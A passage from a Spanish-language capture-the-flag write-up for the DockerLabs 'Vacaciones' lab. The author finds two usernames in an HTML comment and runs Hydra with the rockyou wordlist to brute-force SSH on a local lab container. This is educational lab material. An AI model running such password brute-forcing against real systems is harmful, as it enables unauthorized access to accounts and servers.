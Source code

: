 ![Imagen web](https://github.com/JavieRR13/WriteUps/blob/0636f486d49a3e42456c54df229bc5b539aed588/DockerLabs/Muy%20f%C3%A1cil/Vacaciones/Im%C3%A1genes/Vacaciones_Web.png)

Podemos observar que nos encontramos con una web totalmente en blanco pero, si inspeccionamos el código fuente de la página nos encontramos con un mensaje puesto en un comentario HTML que no deberia estar ahi.
En el mensaje se obtienen dos nombres los cuales podrian ser usuarios de sistema válidos para el servicio OpenSSH que hemos visto anteriormente.
Lo que voy a hacer va a ser crearme un archivo de texto con los dos nombres (aunque tambien se pueden escribir enel propio parámetro separado por comas) y lanzar la herramienta [Hydra](https://github.com/vanhauser-thc/thc-hydra) con el diccionario [rockyou](https://github.com/topics/rockyou-wordlist) para ver si encuentra alguna contraseña.

```ruby
❯ echo "camilo\njuan" > nombres.txt
❯ cat nombres.txt
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: nombres.txt
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ camilo
   2   │ juan
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ hydra -L nombres.txt -P /usr/share/wordlists/rockyou.txt -f ssh://172.17.0.2
```